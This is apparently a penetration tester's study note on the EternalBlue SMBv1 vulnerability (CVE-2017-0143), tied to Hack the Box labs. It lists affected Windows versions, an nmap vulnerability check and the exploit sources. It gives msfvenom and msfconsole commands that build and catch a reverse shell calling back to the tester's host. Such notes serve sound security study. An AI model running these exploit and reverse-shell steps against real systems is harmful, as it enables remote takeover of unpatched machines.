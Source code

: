# CVE-2017-0143

CVE Details:
- [https://www.rapid7.com/db/vulnerabilities/msft-cve-2017-0143/](https://www.rapid7.com/db/vulnerabilities/msft-cve-2017-0143/)
- [https://www.cvedetails.com/cve/CVE-2017-0143/](https://www.cvedetails.com/cve/CVE-2017-0143/)

## Affected Technologies

SMBv1 Servers on several operating systems:
- Windows Vista SP2
- Windows Server 2008 SP2, R2 SP1
- Windows 7 SP1
- Windows 8.1
- Windows Server 2012 Gold, R2
- Windows RT 8.1
- Windows 10 Gold, 1511, 1607
- Windows Server 2016

## What Does it Do?

Allows remote code execution on a vulnerable server.

## Check if a System is Vulnerable

If port 445 is running:

```bash
$ nmap --script vuln [IP] -p 445
```

## Exploits

**Metasploit Module**

```
exploit/windows/smb/ms17_010_eternalblue
```

**Alternative Implementations**

Copy exploit code:

```bash
$ searchsploit -m windows/remote/42315.py
```

Configure options as per [this excellent tutorial](https://null-byte.wonderhowto.com/how-to/manually-exploit-eternalblue-windows-server-using-ms17-010-python-exploit-0195414/). You may have to use `smb_send_file()` to deliver your payload rather than the `bitsadmin` method.

Generate a shell payload using `msfvenom`:

```bash
$ msfvenom -p windows/shell_reverse_tcp lhost=10.10.14.6 lport=9001 -f exe -o sc.exe
```

Start a handler using `msfconsole`:

```bash
┌──(mac㉿kali)-[~/Documents/HTB/legacy]
└─$ msfconsole -q
msf6 > use exploit/multi/handler 
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/shell_reverse_tcp
payload => windows/shell_reverse_tcp
msf6 exploit(multi/handler) > set lhost tun0
lhost => tun0
msf6 exploit(multi/handler) > set lport 9001
lport => 9001
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.14.6:9001 
```

Run exploit:

```bash
$ python2 exploit.py [IP]
```

**Practical Examples**

- Windows 7: [[Writeups/Hack the Box/Boxes/Blue/10 - Eternal Blue#Working Exploit - 42315|Blue - Eternal Blue > Working Exploit - 42315]]
- Windows XP: [[Writeups/Hack the Box/Boxes/Legacy/10 - Eternal Blue|Legacy - Eternal Blue]]

## Mitigations

Patch!

## In the News

- [https://www.wired.co.uk/article/what-is-eternal-blue-exploit-vulnerability-patch](https://www.wired.co.uk/article/what-is-eternal-blue-exploit-vulnerability-patch)
- [https://www.computerweekly.com/news/252440964/WannaCrys-EternalBlue-exploit-still-a-threat](https://www.computerweekly.com/news/252440964/WannaCrys-EternalBlue-exploit-still-a-threat)

# Tags

#cve #windows #smb